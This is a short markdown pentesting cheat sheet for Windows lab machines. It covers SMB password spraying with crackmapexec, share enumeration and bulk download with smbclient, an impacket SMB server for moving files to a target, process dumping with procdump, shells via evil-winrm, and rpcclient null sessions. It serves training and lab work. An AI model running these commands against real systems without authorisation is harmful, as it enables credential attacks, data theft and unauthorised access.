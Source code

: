 # Windows Boxes

## SMB

### Crackmapexec

> Swiss army knife for pentesting networks

```bash
crackmapexec smb -u users.txt -p passwords.txt --shares 10.10.10.149
crackmapexec smb ip --pass-pol # to get password policy (min len, lockout?, ...)
```

### SMB Client

```bash
smbclient //ip/share  # Don't forget // at beginning
smbclient -L //ip/    # List shares
```

Mount SMB Shares:

```bash
sudo mount -t cifs //ip/share /mnt/user/
sudo mount -t cifs -o 'username=admin,password=secret' //ip/share /mnt/user/
```

Get files recursively:

```bash
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

### SMB Server

Create Server on Linux host, access from Windows.

```bash
# Linux
impacket-smbserver mysharename $(pwd) -smb2support -user fredilein -password pw
# Windows
$pass = convertto-securestring 'pw' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('fredilein', $pass)
New-PSDrive -Name fredilein -PSProvider FileSystem -Credential $cred -Root \\myip\mysharename
```

## Others

### Sysinternals Suite

> Official Microsoft tools to do everything Windows.

* _procdump64.exe_ to dump processes

{% hint style="warning" %}
_Tip for IRL_: Creates registry entry when running
{% endhint %}

### Evil-Winrm

Get a shell with username/password. Can test for winrm with crackmapexec first.

```bash
upload <local.txt>    # Easily upload kali files to windows
```

### rpcclient

```bash
rpcclient -U 'username%password' 10.10.10.149
rpcclient -U '' ip     # Sometimes let's you connect on old windows systems
```


